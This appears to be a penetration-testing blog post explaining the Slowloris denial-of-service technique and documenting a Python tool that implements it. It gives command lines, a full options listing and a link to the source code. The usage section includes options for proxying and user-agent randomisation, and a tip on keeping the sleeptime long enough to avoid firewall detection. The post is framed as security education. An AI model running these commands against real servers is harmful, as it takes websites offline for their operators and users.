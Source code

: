 ## Notice

> The techniques and methods discussed in this blog are intended for educational purposes only, and should not be used without proper training, authorization, and legal consent. Any unauthorized or illegal use of these techniques may result in severe legal consequences, including criminal charges and civil lawsuits. The author of this blog assumes no responsibility or liability for any misuse or harm resulting from the use of the information provided. It is important to use caution and conduct penetration testing only with proper authorization and legal safeguards in place.

## Introduction

Slowloris is a type of denial-of-service (DoS) attack tool. It is designed to take advantage of a weakness in web servers that allows for slow connections by keeping the connection open as long as possible. The tool does this by initiating multiple connections to the target server and then sending HTTP headers very slowly, which can overwhelm the server's capacity to handle new connections.

Slowloris works by sending partial HTTP requests, leaving the request open and keeping the server waiting for the complete request. The tool can also keep multiple connections open simultaneously, thus further adding to the server's workload. By consuming server resources with idle connections, Slowloris can cause a server to become unresponsive or crash.

Slowloris is particularly effective against servers that have a limited number of resources available, such as those with low bandwidth or connections. The tool is also difficult to detect and prevent since it mimics legitimate traffic and does not require a large number of connections to be effective.

## Usage

In this section, we will introduce some common usage Slowloris.

### Basic Usage

```sh
python slowloris.py example.com
```

### With Specified Port

The default port number is 80, you can use option `-p` or `--port` to specify the port to attack.

```sh
python slowloris.py -p 8080 example.com
```

### With Specified Sleeptime

The default sleeptime is 15, you can use option `--sleeptime` to change the sleeptime between each header sent (notice that the sleeptime sould not be to short, or the attack may be detected by the firewall).

```sh
python slowloris.py --sleeptime 1 example.com
```

### Show More Log Info

Use option `-v` or `--verbose` to print more information on the terminal.

```sh
python slowloris.py -v example.com
```

### Send Request With Built-In User Agent

Use option `-ua` or `--user-agent` to randomize the user agent of each request.

```sh
python slowloris.py -ua example.com
```

## Demonstration

The demonstration shows that we used this tool to attack a local PHP built-in server. We can see there are more and more incomplete requests are sent to server and the threads are opened and remain open.

<div class="public-article-image">
    <img src="https://i.imgur.com/TqDkM7g.gif" /><br />
    <i>Slowloris Attack Demonstration.</i>
</div>

## Details

### Configuration Options

```
NAME
       slowloris - low bandwidth stress test tool for websites

SYNOPSIS
       slowloris.py [-h] [-p] [-s] [-v] [-ua] [--https] [--use-proxy] [--sleeptime] [--proxy-host] [--proxy-port] [host]

DESCRIPTION
    host               Target host to attack.

OPTIONS
    -h, --help
        show this help message and exit

    -p , --port
        Port of webserver (default 80).

    -s , --sockets
        Number of sockets to create.

    -v, --verbose
        Show more information in the log.

    -ua, --user-agent 
        Randomizes user-agents with each request.

    --https
        Use HTTPS for the requests.

    --use-proxy
        Use a SOCKS5 proxy for connecting.

    --sleeptime
        Time to sleep between each header sent.

    --proxy-host
        SOCKS5 proxy host.

    --proxy-port
        SOCKS5 proxy port.
```

## Source

You can find the source code on <a href="https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris" target="_blank">GitHub</a>.

## References

<ul class="public-article-references">
    <li>Slowloris, GitHub - <a href="https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris" target="_blank">https://github.com/91d906h4/Penetration-Testing-Tools/tree/main/Slowloris</a></li>
</ul>